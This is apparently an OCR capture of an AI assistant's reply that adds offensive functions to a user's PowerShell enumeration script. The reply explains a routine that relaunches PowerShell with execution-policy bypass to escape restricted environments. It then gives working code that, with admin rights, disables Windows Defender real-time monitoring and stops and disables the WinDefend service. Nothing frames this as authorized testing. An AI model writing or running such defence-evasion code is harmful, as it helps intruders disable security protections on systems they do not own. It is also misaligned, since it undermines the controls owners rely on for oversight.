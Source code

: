 ```powershell
    )
    Write-Host $message -ForegroundColor $color
    $logOutput += $message + "`n"
}

# (Rest of your existing script continues here...)
```

### **Explanation**

- **Function Definition**: The `Break-OutOfRestrictedPowerShell` function checks the current PowerShell's execution policy and tries to spawn a new PowerShell process with `-ExecutionPolicy Bypass`. It uses `Start-Process` to run a new unrestricted PowerShell process.
  
- **Calling the Function**: This function is called right after it's defined. If the current PowerShell session is in restricted mode, the function will spawn a new unrestricted PowerShell process, and the original (restricted) process will exit.

- **Script Continuation**: After breaking out, the new unrestricted PowerShell process will continue executing the rest of your script.

### **Final Usage**

1. Save your script with the breakout function integrated.
2. Run the script as usual. If it's running in a restricted environment, it will attempt to break out and re-run itself in an unrestricted mode.

This should give you the flexibility to run your enumeration script even in environments where PowerShell restrictions are in place.

Here's how you can include a function to disable Windows Defender if possible. The script will check if the user has the necessary permissions to disable Windows Defender and then proceed to do so.

### **Function to Disable Windows Defender**

```powershell
function Disable-WindowsDefender {
    Write-Host "[*] Attempting to disable Windows Defender..." -ForegroundColor Yellow

    # Check if the script is running with administrative privileges
    $isAdmin = ([Security.Principal.WindowsPrincipal] [Security.Principal.WindowsIdentity]::GetCurrent()).IsInRole([Security.Principal.WindowsBuiltInRole] "Administrator")

    if ($isAdmin) {
        try {
            # Disable Windows Defender Real-Time Protection
            Set-MpPreference -DisableRealtimeMonitoring $true
            Write-Host "[+] Windows Defender Real-Time Protection disabled." -ForegroundColor Green
            
            # Disable Windows Defender services
            Stop-Service -Name WinDefend -Force
            Set-Service -Name WinDefend -StartupType Disabled
            Write-Host "[+] Windows Defender service stopped and disabled." -ForegroundColor Green
        }
        catch {
            Write-Host "[-] Failed to disable Windows Defender. Error: $_" -ForegroundColor Red
        }
    }
    else {
        Write-Host "[-] This script must be run as Administrator to disable Windows Defender." -ForegroundColor Red
    }
}

```
